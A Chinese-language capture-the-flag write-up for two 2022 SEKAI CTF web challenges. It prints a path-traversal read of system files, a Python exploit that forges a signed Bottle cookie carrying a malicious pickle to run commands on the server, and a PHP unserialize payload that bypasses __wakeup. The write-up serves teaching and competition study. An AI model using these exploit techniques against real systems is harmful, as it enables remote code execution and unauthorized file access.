






# 2022 SEKAI CTF WP

## **Bottle Poem**

先是目录遍历，发现能读到 `etc/passwd`

但是读不到 flag，所以我们尝试去看它的进程 ———— `proc/1/cmdline`

发现有个 `python -u app/app.py`，这里说明源码是在 `app/app.py` 处的


后续题目把这里修掉了，可能是觉得是个非预期





读源码





源码如下

```python
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)

```


这里 secret 是需要读的，位置处于 `app/config/secret.py`

这里想的是，需要构造一个越权，使用 admin，所以本地自己起了个服务，然后以 admin 登录，但是没什么卵用。


- 后续观察发现，name 这个字段是可控的，题目提示是命令执行，所以应该是要构造一个 payload，思来想去，两种方式，一是构造 pickle 反序列化，二是 ssti 的攻击

当时因为不会 pickle 反序列化，所以满脑子都是 ssti，真白给阿，看赛后师傅们的 WP 才知道确实是 pickle 反序列化


EXP 如下

```python
import base64,hashlib,pickle,hmac
import os
def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)


def cookie_encode(data, key):
    ''' Encode and sign a pickle-able object. Return a (byte) string '''
    msg = base64.b64encode(pickle.dumps(data, 0))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg

class test():
    def __reduce__(self):
        return (eval,('__import__("os").popen("/flag")',))


obj = test()
a = cookie_encode(obj,'Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu')
print(a)
```


这里为啥可以构造一个 pickle 反序列化呢？本质是这样的：

在调用 `get_cookie` 的时候，我们可以跟进去看一下，说实话，这里非常非常非常非常后悔，因为当时其实是想点进去看一下的，但是自己偷懒，或者说是一念之差，没点进去，不然这题必出。





里面有个 `cookie_decode` 的方法，跟进




看到有个 `pickle.loads()` 方法





所以构造这个 exp


## **Sekai Game Start**

这个题目或许算是有点偏吧

源代码如下


```php
<?php
include('./flag.php');
class Sekai_Game{
    public $start = True;
    public function __destruct(){
        if($this->start === True){
            echo "Sekai Game Start Here is your flag ".getenv('FLAG');
        }
    }
    public function __wakeup(){
        $this->start=False;
    }
}
if(isset($_GET['sekai_game.run'])){
    unserialize($_GET['sekai_game.run']);
}else{
    highlight_file(__FILE__);
}

?>
```


我们要进到 `__destruct()` 方法里面，所以初步的 EXP 应该构造如下

`C:10:"Sekai_Game":0:{}`，这样可以 bypass `__wakeup()` 魔术方法


然后因为这里 PHP 版本是 7.4.5，小于 8 的版本，会把带 `.` 的字符串全部都转化为 `_`，而带 `_` 的全部都会转化为 `.`，笑死了


最后的 payload 为 


```payload
sekai[game.run=C:10:"Sekai_Game":0:{}
```




